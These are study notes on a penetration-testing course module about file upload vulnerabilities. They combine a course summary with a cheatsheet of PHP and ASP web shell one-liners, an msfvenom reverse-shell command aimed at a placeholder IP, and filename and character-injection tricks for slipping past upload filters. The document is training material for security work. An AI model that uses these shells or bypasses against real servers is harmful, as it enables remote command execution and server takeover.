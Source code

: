 # File Upload Attacks

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[ ]]

![[logo_file_upload_attacks.png]]

Arbitrary file uploads are among the most critical web vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server and all web applications hosted on it and potentially gain access to sensitive data or cause a service disruption.

### Cheatsheet

#### Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

#### Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Insepctor |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

#### Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |

### Module Summary

Many modern web applications have file upload capabilities, which are usually necessary for the web application's functionality to enable features like attaching files or changing a user's profile image. If the file upload functionality is not securely coded, it may be abused to upload arbitrary files to the back-end server, eventually leading to compromise of the back-end server.

When an attacker can upload arbitrary files to the back-end server, they can upload malicious files, like web shells, which would enable them to execute arbitrary commands on the back-end server. This eventually allows attackers to take control over the entire server and all web applications hosted on it, which makes `File Upload Attacks` among the most critical web vulnerabilities.

This module will discuss the basics of identifying and exploiting file upload vulnerabilities and identifying and mitigating basic security restrictions in place to reach arbitrary file uploads.

In addition to the above, the `File Upload Attacks` module will teach you the following:

-   What are file upload vulnerabilities?
-   Examples of code vulnerable to file upload vulnerabilities
-   Different types of file upload validations
-   Detecting and exploiting basic file upload vulnerabilities
-   Bypassing client-side file upload validation
-   Bypassing blacklisted and whitelisted extension validation
-   Bypassing type and content validation
-   Bypassing other basic security restrictions
-   Attacking upload forms with limited allowed file types
-   Preventing file upload vulnerabilities through secure validation techniques

* * * * *

This module is broken into sections with accompanying hands-on exercises to practice each of the tactics and techniques we cover. The module ends with a practical hands-on skills assessment to gauge your understanding of the various topic areas.

You can start and stop the module at any time and pick up where you left off. There is no time limit or "grading," but you must complete all of the exercises and the skills assessment to receive the maximum number of cubes and have this module marked as complete in any paths you have chosen.

As you work through the module, you will see example commands and command output for the various topics introduced. It is worth reproducing as many of these examples as possible to reinforce further the concepts presented in each section. You can do this in the `PwnBox` provided in the interactive sections or your virtual machine.

The module is classified as "`Medium`" and assumes a working knowledge of the Linux command line and an understanding of information security fundamentals. The module also assumes a basic understanding of web applications and web requests. It will build on this understanding to teach how Arbitrary File Upload vulnerabilities work and how to exploit them.

In addition to the above, a firm grasp of the following modules can be considered as prerequisites for the successful completion of this module:

-   Linux Fundamentals
-   Web Requests
-   Introduction to Web Applications
-   Using Web Proxies
-   Web Attacks